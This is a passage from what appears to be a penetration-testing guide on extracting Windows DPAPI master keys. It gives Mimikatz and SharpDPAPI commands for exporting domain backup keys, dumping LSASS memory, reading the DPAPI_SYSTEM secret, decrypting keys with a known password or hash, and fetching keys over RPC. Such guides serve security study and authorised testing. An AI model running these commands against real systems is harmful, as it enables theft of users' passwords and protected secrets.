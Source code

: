 System protected data includes:
- Wifi passwords
- Scheduled task passwords
- ...

### Master key extraction options

- If the user has domain admin privileges, they can access the **domain backup key** to decrypt all user master keys in the domain:

```bash
# Mimikatz
lsadump::backupkeys /system:<DOMAIN CONTROLLER> /export

# SharpDPAPI
SharpDPAPI.exe backupkey [/server:SERVER.domain] [/file:key.pvk]
```

- With local admin privileges, it's possible to **access the LSASS memory** to extract the DPAPI master keys of all the connected users and the SYSTEM key.

```bash
# Mimikatz
mimikatz sekurlsa::dpapi
```

- If the user has local admin privileges, they can access the **DPAPI_SYSTEM LSA secret** to decrypt the machine master keys:

```bash
# Mimikatz
lsadump::secrets /system:DPAPI_SYSTEM /export
```

- If the password or hash NTLM of the user is known, you can **decrypt the master keys of the user directly**:

```bash
# Mimikatz
dpapi::masterkey /in:<C:\PATH\MASTERKEY_LOCATON> /sid:<USER_SID> /password:<USER_PLAINTEXT> /protected

# SharpDPAPI
SharpDPAPI.exe masterkeys /password:PASSWORD
```

- If you are inside a session as the user, it's possible to ask the DC for the **backup key to decrypt the master keys using RPC**. If you are local admin and the user is logged in, you could **steal his session token** for this:

```bash
# Mimikatz
dpapi::masterkey /in:"C:\Users\USER\AppData\Roaming\Microsoft\Protect\SID\GUID" /rpc

# SharpDPAPI
SharpDPAPI.exe masterkeys /rpc
```
